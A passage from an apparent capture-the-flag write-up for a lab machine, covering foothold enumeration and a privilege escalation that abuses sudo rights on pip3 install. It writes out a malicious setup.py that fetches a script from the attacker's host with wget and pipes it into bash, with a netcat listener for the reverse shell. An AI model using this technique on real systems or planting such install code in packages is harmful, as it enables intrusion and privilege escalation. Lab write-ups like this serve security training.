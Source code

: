 ## [05] Foot Hold

Our `netcat` listeners prompt changes, and we're able to run commands as the web user. Let's check for the other users on the system and our `sudo` privileges.

```bash
web@vulnnet-dotpy:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
system-adm:x:1000:1000:system-adm,,,:/home/system-adm:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
manage:x:1002:1002:,,,:/home/manage:/bin/bash
```

```bash
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

## [06] Privilege Escalation

Because we can run `pip3 install *` as `system-adm` we're able to run any Python file on the system.  The code below will reuse the work we have already completed.
We'll create a Python script called `setup.py`.  Using `popen` to run `wget` with `-O -` we are able to pipe `index.html` directly into `bash`.

Run an new `netcat` listener to catch our reverse connection.
```bash
nc -lnvp 4242
```

```bash
echo 'from os import popen
popen("wget 10.8.208.76 -O -|bash")' > setup.py

sudo -u system-adm /usr/bin/pip3 install -e .
```

Now we can easily collect our `user.txt` flag.

```bash
system-adm@vulnnet-dotpy:~$ cat ~/user.txt
THM[REDACTED]
```


## [07] ROOT

Running `sudo -l` again we can run `/opt/backup.py` using Python and also `SETENV`.

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
---snip---
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```
